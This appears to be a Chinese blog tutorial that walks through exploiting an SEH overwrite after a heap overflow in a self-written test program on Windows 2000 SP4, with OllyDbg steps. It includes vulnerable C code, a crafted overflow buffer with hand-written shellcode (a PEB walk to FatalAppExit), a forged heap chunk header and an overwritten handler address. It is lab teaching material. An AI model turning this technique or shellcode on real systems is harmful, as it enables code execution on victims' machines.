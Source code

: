 ```yaml
---
layout:		post
title:		在堆溢出中利用S.E.H
author:		wooy0ung
tags:		windows
category:  	exploit
---
```



>[分析环境]  
>系统: Windows 2000 Professional sp4  
>编译器: Visual C++ 6.0  
>调试器: OllyDbg 1.10  
<!-- more -->


### 0x00 前期准备

VC 6.0新建一个工程, 贴入以下代码, 选择release版本

```
#include <windows.h>

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90";		# 200 byte

DWORD MyExceptionhandler()
{
	ExitProcess(1);
	return 0;
}

int main()
{
	HLOCAL h1=0,h2=0;
	HANDLE hp;
	hp=HeapCreate(0,0x1000,0x10000);
	h1=HeapAlloc(hp,HEAP_ZERO_MEMORY,200);
	memcpy(h1,shellcode,200);	# 为了观察分配的块首信息, 先不溢出

	__asm int 3;
	__try
	{
		h2=HeapAlloc(hp,HEAP_ZERO_MEMORY,8);
	}
	__except(MyExceptionhandler()){}

	return 0;
}
```


### 0x01 exploit

运行*.exe, 弹出异常框, 选择取消自动调用OllyDbg附加调试, 成功断下

![](/assets/img/exploit/2017-10-01-windows-2000-heapseh/0x00.png)

内存区goto 0x00360688, 定位到h1以及尾块的块首

![](/assets/img/exploit/2017-10-01-windows-2000-heapseh/0x01.png)
![](/assets/img/exploit/2017-10-01-windows-2000-heapseh/0x02.png)

这里有问题的可以看另一篇文:

#### 传送门: [DWORD SHOOT堆溢出利用](http://www.wooy0ung.me/exploit/2017/10/01/windows-2000-dwordshoot/)

构造junk+shellcode填充200 byte的数据区

```
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90"
"\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42\x08"
"\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c"
"\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b\x34\xaf\x01"
"\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e\x08\x45\x78\x69"
"\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01"
"\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x67\x20\x20\x01\x68\x79\x30\x75"
"\x6e\x68\x20\x77\x6f\x6f\x89\xe1\xfe\x49\x0b\x31\xc0\x51\x50\xff"
"\xd7"
"\x16\x01\x1a\x00\x00\x10\x00\x00"		# 按尾块的首部填充
"\x88\x06\x36\x00"			# shellcode起始
"\x90\x90\x90\x90"			# 暂时填充无效数据, 调试确定
```

将memcpy长度改为0x200, 确认没有忽略任何异常后, 附加调试

![](/assets/img/exploit/2017-10-01-windows-2000-heapseh/0x03.png)

F9直接运行, 调试器捕捉到异常

![](/assets/img/exploit/2017-10-01-windows-2000-heapseh/0x04.png)

查看S.E.H chain, 定位到最近的S.E.H结构

![](/assets/img/exploit/2017-10-01-windows-2000-heapseh/0x05.png)

这样就得到了需要覆写SE handler的地址0x0012FF30, 将最后的"\x90\x90\x90\x90"修改成"\x30\xff\x12\x00"

![](/assets/img/exploit/2017-10-01-windows-2000-heapseh/0x06.png)

注释掉int 3指令, 直接运行, pwn~

![](/assets/img/exploit/2017-10-01-windows-2000-heapseh/0x07.png)